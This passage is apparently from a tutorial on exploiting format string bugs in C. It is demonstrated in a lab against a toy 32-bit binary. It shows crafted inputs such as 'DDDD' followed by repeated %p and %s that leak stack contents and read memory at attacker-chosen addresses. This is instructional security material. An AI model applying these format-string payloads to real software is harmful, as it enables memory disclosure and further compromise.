 Which works as expected *as long as* the caller does not include a format string:

~~~ shell
vagrant@vagrant:~/scratch$ gcc -m32 -g -fno-stack-protector -w printf_c.c
vagrant@vagrant:~/scratch$ ./a.out hello
hello
vagrant@vagrant:~/scratch$ ./a.out hello%08x
helloffb5ad8b
~~~

So what just happened? `printf` parsed the format string and decided it needed an extra argument - and just took the next item on the stack and displayed it as a 4-bytes word. Let's try that again with a more contrived example:

~~~ shell
vagrant@vagrant:~/scratch$ ./a.out DDDD$(perl -e "print '%p..'x12")
DDDD0xffdf3d60..0xf77d8f1c..0xf77cbe7a..0x8..0xf77cbe66..0xf77d9000..0x44444444..0x2e2e7025..0x2e2e7025..0x2e2e7025..0x2e2e7025..0x2e2e7025..
~~~

The `0x44444444` looks suspicious, and so does the repeating `0x2e2e7025`. Sure enough:

~~~ shell
vagrant@vagrant:~/scratch$ printf "\x44\x44\x44\x44\n"
DDDD
vagrant@vagrant:~/scratch$ printf "\x2e\x2e\x70\x25\n"
..p%
~~~

Do remember we're using little-endian, so the bytes are printed backwards. Unlike the first example where the format string was located at `0x08048590`, this time *it has been placed fully on the stack*! And as we walk down the stack we encounter what we put on it - meaning we can force `printf` to use our input as arguments.

This unfortunately means we cannot read past our input using `%p` - but we can trick `printf` into reading a string at a memory location of our choosing. If we use the `%s` format, `printf` will use what's on the stack  as the address of a string and will read until a null byte is found. But what shall we read? Let's try an environment variable.

Now `gdb` does some funky stuff meaning the environment we execute under differs to the one outside. Thankfully there's something we can do about it but it's a little messy (I'm sure there *must* be a better way). We'll use `env -i` to ignore the current environment. Let's also figure out where we need to place our `%s`:

~~~ shell
vagrant@vagrant:~/scratch$ /home/vagrant/scratch/a.out $(python -c 'print "DDDD" + "%p.."*5')
DDDD0xffffdd54..0xf7ffd000..0xf7fefec9..0x44444444..0x2e2e7025..
~~~

This means we should have 3 `%p` before adding our `%s` - which, as it stands, would cause `printf` to try and read the string located at `0x44444444` which sure enough, segfaults:

~~~ shell
vagrant@vagrant:~/scratch$ /home/vagrant/scratch/a.out $(python -c 'print "DDDD" + "%p.."*3 + "%s"')
Segmentation fault (core dumped)
~~~

